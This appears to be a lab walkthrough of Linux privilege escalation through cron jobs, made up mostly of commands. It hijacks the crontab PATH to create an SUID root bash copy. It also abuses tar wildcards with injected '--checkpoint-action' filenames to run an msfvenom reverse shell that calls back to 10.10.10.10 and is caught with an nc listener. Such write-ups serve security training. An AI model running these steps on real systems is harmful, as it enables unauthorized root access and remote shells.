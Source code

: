 ## cron jobs - PATH variable

```
cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:

# Create a file called **overwrite.sh** in your home directory
#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash


chmod +x /home/user/overwrite.sh
```

Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash` command with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p

rm /tmp/rootbash
exit


What is the value of the PATH variable in /etc/crontab?

/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```


## cron jobs - wildcards 

```
cat /usr/local/bin/compress.sh

#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *


msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf

chmod +x /home/user/shell.elf

touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.elf


nc -nlvp 4444


rm /home/user/shell.elf  
rm /home/user/--checkpoint=1  
rm /home/user/--checkpoint-action=exec=shell.elf

```
